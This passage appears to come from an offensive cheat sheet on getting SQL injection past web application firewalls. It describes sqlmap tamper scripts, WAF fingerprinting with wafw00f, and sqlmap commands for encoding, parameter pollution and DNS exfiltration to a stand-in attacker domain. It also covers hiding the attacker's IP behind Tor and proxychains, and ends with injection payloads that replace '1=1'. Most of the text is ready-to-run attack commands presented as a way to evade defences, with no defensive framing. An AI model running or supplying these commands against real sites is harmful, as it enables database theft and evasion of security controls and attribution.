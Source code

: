 - `SELECT * FROM users WHERE id = 1 UNION SELECT username, password FROM users;` will be: `SELECT/**//*FROM/**/users/**/WHERE/**/id/**/=/**/1/**/UNION/**/SELECT/**/username,password/**/FROM/**/users;`
**randomcase.py** :
- Randomizes the case of SQL keywords to bypass case-sensitive filters.
**charencode.py** :
- Encodes SQL characters into their **CHAR()** equivalent to avoid detection.
**base64encode.py** :
- Encodes payloads in **Base64** and decodes them at runtime.
**between.py** :
- Replaces `=` with `BETWEEN` to avoid simple WAF rules.
 *search for more scripts* 
# How to Identify and Bypass a Firewall (WAF)
## WafW00f
`wafw00f http://example.com` > output :
`Target: http://example.com
`Detected WAF: Cloudflare`

## Bypassing the Firewall (WAF)
### Using SQLMap with Tamper Scripts
`sqlmap -u "http://example.com/index.php?id=1" --dbs --tamper=space2comment,randomcase,charencode`
- **Works well against** ModSecurity, Cloudflare, and generic WAFs.
### Using HTTP Parameter Pollution
`sqlmap -u "http://example.com/index.php?id=1&id=2" --dbs`
- Some WAFs filter `id` but not multiple parameters.
### Bypassing WAF Using Out-of-Band (OOB) Attacks
Some WAFs block inline responses but may allow **DNS exfiltration**.  
Use **OOB techniques** to extract data: `sqlmap -u "http://example.com/index.php?id=1" --dbs --dns-domain=attacker.com`
### IP Spoofing
Some WAFs block **specific IPs**. Use **TOR & ProxyChains** to change IP.
`sudo apt install tor proxychains4 -y`
`sudo service tor start`
`proxychains sqlmap -u "http://example.com/index.php?id=1" --dbs`

- `--hex`: Encodes payloads in hexadecimal format, another method to bypass WAF filters.
- `--delay=2`: Delays between each request to avoid triggering rate limits or suspicious activity alerts.
**alternatives to 1=1** :
```sql
index.php?id=1+OR+1=repeat(1,1)--
```

```sql
/index.php?id=1+OR+1=insert(1,1,1,1)--
```
